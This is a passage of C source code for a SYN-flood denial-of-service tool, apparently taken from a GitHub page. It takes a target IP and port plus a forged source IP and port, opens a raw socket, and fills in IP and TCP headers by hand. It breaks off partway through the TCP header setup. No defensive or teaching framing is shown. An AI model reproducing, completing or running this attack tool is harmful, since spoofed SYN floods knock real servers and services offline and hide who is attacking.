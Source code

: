 ```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <arpa/inet.h>
#include <netinet/ip.h>
#include <netinet/tcp.h>

#define PACKET_LEN 8192
#define SEND_DELAY 1

int main(int argc, char* argv[]){

  if (argc < 5){
    printf("syn_flood [target-ip] [target-port] [source-ip] [source-port]\n");
    exit(1);
  }

  char* target_ip = argv[1];
  char* source_ip = argv[3];
  int target_port = atoi(argv[2]), source_port = atoi(argv[4]);

  printf("starting syn_flood of %s:%d from address %s:%d...\n",
          target_ip, target_port, source_ip, source_port);

  // create a raw socket no type we will write tcp packet ourselves
  int s = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
  if (s < 0){
    printf("error creating socket\n");
    exit(-1);
  }
  else
    printf("socket created successfully\n");

  // Buffer of maximum packet length size to send
  char buffer[PACKET_LEN];
  // Dummy socket address for sendto we manually set address/ports
  struct sockaddr_in socket_addr;

  // IP header and TCP header at appropriate offsets
  struct iphdr *ip = (struct iphdr *) buffer;
  struct tcphdr *tcp = (struct tcphdr *) (buffer + sizeof(struct iphdr));

  // zero out our packet buffer
  memset(buffer, 0, PACKET_LEN);

  // ip header structure
  ip->ihl = 5;  // header length
  ip->version = 4;  // ip version
  ip->tos = 0;  // type of service
  ip->tot_len = sizeof(struct iphdr) + sizeof(struct tcphdr); // total length
  ip->id = htons(54321);  // identification
  ip->frag_off = 0; // fragmentation offset
  ip->ttl = 64; // time to live
  ip->protocol = 6; // TCP protocol
  ip->check = 0; // ip checksum, calculated by kernel
  ip->saddr = inet_addr(source_ip); // source ip
  ip->daddr = inet_addr(target_ip); // destination ip

  // tcp header structure
  tcp->th_sport = htons(source_port);  // source port
  tcp->th_dport = htons(target_port);  // destination port
  tcp->th_seq = htonl(1); // sequence number
```